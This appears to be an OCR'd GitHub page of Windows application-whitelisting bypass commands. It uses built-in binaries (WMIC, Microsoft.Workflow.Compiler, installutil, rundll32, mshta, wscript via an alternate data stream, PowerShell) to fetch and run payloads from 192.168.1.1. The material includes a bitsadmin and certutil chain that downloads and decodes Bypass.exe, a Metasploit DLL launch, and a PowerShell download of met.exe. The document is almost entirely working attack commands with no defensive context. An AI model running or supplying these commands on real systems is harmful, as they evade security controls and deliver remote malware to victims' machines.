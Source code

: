 WMIC

```shell
wmic process get brief /format:"http://192.168.1.1/payload.xsl"
```

Microsoft.Workflow.Compiler

```plaintext
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Microsoft.Workflow.Compiler.exe run.xml results.xml
```

Run.xml

```csharp
using System;
using System.Workflow.ComponentModel;
public class Run : Activity{
    public Run() {
        Console.WriteLine("I executed!");
    }
}
```

installutil

```plaintext
bitsadmin /Transfer myJob http://192.168.1.1/payload.txt C:\users\student\enc.txt && certutil -decode C:\users\student\enc.txt C:\users\student\Bypass.exe && del C:\users\student\enc.txt && C:\Windows\Microsoft.NET\Framework64\v4.0.30319\installutil.exe /logfile= /LogToConsole=false /U C:\users\student\Bypass.exe
```

rundll32

```plaintext
rundll32 test.dll,run
rundll32 shell32.dll,Control_RunDLL C:\Users\student\exploit.dll (msf payload)
```

Alternate Data stream

```plaintext
type Desktop\jscript.js > "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test2.js
```

```plaintext
wscript "C:\Program Files (x86)\TeamViewer\TeamViewer12_Logfile.log:test2.js"
```

HTA shortcut

```plaintext
C:\Windows\System32\mshta.exe http://192.168.1.1/payload.hta
```

PowerShell with error printing

```powershell
powershell -Command wget -Uri http://192.168.1.1:81/ -Method POST -Body $(powershell Invoke-WebRequest 'http://192.168.1.1/met.exe' -OutFile '%TEMP%\\met.exe')
```
